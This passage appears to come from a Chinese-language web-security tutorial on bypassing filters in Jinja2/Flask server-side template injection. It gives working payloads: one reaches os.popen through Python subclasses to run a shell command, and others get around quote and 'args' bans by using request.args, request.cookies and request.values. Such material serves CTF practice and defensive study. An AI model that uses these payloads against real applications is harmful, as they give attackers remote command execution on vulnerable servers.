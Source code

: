 ```plain
{%for i in ''.__class__.__base__.__subclasses__()%}{%if i.__name__ =='_wrap_close'%}{%print i.__init__.__globals__['popen']('dir').read()%}{%endif%}{%endfor%}
```

[![在这里插入图片描述](assets/1698900310-0fa4cb3acb69efba7bfa13847285ac2c.png)](https://storage.tttang.com/media/attachment/2022/08/14/899728a5-39ec-4a4d-84e7-fc8978874e78.png)

## [绕过单引号和双引号](#toc__8)

当单引号和双引号被 ban 时，我们通常采用`request.args.a`，然后给 a 赋值这种方式来进行绕过，举个例子

```plain
{{url_for.__globals__[request.args.a]}}&a=__builtins__  等同于 {{url_for.__globals__['__builtins__']}}
```

[![在这里插入图片描述](assets/1698900310-9cf10e21be98dcc1e0542cd1266a2ade.png)](https://storage.tttang.com/media/attachment/2022/08/14/33d747c3-0806-42ed-8a35-1a36a6e08b25.png)

## [绕过 args](#toc_args)

当使用 args 的方法绕过`'`和`"`时，可能遇见 args 被 ban 的情况，这个时候可以采用`request.cookies`和`request.values`，他们利用的方式大同小异，示例如下

```plain
GET:{{url_for.__globals__[request.cookies.a]}}
COOkie: "a" :'__builtins__'
```
